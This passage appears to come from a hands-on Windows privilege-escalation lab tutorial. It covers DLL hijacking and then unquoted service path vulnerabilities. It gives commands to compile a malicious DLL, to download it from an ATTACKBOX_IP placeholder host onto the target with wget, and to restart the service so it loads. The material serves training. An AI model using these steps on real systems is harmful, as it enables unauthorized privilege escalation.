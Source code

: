 The mingw compiler can be used to generate the DLL file with the command given below:
`x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll`

You can easily install the Mingw compiler using the apt install gcc-mingw-w64-x86-64 command.

We have seen earlier that the application we target searches for a DLL named hijackme.dll. This is what our malicious DLL should be named.

You can copy the C code above given for the DLL file to the AttackBox or the operating system you are using and proceed with compiling.

Once compiled, we will need to move the hijackme.dll file to the Temp folder in our target system. You can use the following PowerShell command to download the .dll file to the target system: `wget -O hijackme.dll ATTACKBOX_IP:PORT/hijackme.dll`

We will have to stop and start the dllsvc service again using the command below:
`sc stop dllsvc & sc start dllsvc`

## Unquoted Service Path Vulnerabilities
When a service starts in Windows, the operating system has to find and run an executable file. For example, you will see in the terminal output below that the "netlogon" service (responsible for authenticating users in the domain) is, in fact, referring to the C:\Windows\system32\lsass.exe binary. 

Netlogon and its binary

           `C:\Users\user>sc qc netlogon
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: netlogon
        TYPE               : 20  WIN32_SHARE_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\system32\lsass.exe
        LOAD_ORDER_GROUP   : MS_WindowsRemoteValidation
        TAG                : 0
        DISPLAY_NAME       : Netlogon
        DEPENDENCIES       : LanmanWorkstation
        SERVICE_START_NAME : LocalSystem

C:\Users\user>`
    
In the example above, when the service is launched, Windows follows a search order similar to what we have seen in the previous task. Imagine now we have a service (e.g. srvc) which has a binary path set to C:\Program Files\topservice folder\subservice subfolder\srvc.exe

To the human eye, this path would be merely different than "C:\Program Files\topservice folder\subservice subfolder\srvc.exe". We would understand the service is trying to run srvc.exe

Windows approaches the matter slightly differently. It knows the service is looking for an executable file, and it will start looking for it. If the path is written between quotes, Windows will directly go to the correct location and launch service.exe. 

However, if the path is not written between quotes and if any folder name in the path has a space in its name, things may get complicated. Windows will append ".exe" and start looking for an executable, starting with the shortest possible path. In our example, this would be C:\Program.exe. If program.exe is not available, the second attempt will be to run topservice.exe under C:\Program Files\. If this also fails, another attempt will be made for C:\Program Files\topservice folder\subservice.exe. This process repeats until the executable is found. 
